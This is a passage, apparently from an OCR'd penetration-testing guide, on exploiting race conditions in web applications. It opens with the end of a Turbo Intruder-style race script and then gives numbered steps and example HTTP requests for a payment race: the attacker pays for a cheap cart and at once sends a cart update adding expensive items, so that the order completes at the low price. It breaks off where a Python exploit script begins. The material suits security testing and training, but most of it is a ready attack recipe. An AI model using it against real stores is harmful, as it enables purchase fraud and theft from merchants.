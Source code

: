            # Open the gate to send all requests
           engine.openGate('race')
       
       def handleResponse(req, interesting):
           # Check if protected request was successful
           if "HTTP/2 200" in req.response and "/account/settings" in req.request:
               table.add(req)
       ```

  - **Payment validation exploitation**
    1. **Identifying vulnerable payment process**:
       - Step 1: Map the complete checkout flow
       - Step 2: Identify the payment validation and order confirmation steps
       - Step 3: Check if the basket/cart can be modified after payment validation starts
       - Step 4: Look for race windows between payment validation and order finalization
       - Step 5: Prepare a test scenario with low-value items in the cart
       - Example vulnerability pattern in checkout flow:
         1. User adds items to cart
         2. User proceeds to checkout
         3. Payment validation occurs
         4. Order is finalized and database updated
       
    2. **Exploiting payment race condition**:
       - Step 1: Add a low-value item to your cart
       - Step 2: Begin the checkout process
       - Step 3: Prepare payment submission request
       - Step 4: Prepare cart modification request to add high-value items
       - Step 5: Send payment request
       - Step 6: Immediately send cart modification request
       - Step 7: Check if the order is completed with the high-value items at the low price
       - Example request sequence:
       ```
       # Request 1: Submit payment for low-value cart
       POST /checkout/process-payment HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/json
       Cookie: session=valid_session_id
       
       {"payment_method":"credit_card","card_number":"4111111111111111","expiry":"12/23","cvv":"123"}
       
       # Request 2: Modify cart to add expensive items
       POST /cart/update HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/json
       Cookie: session=valid_session_id
       
       {"items":[{"product_id":"expensive-item-1","quantity":1},{"product_id":"expensive-item-2","quantity":1}]}
       ```
       - Python script for payment validation exploitation:
       ```python
       import requests
       import time
       import threading
       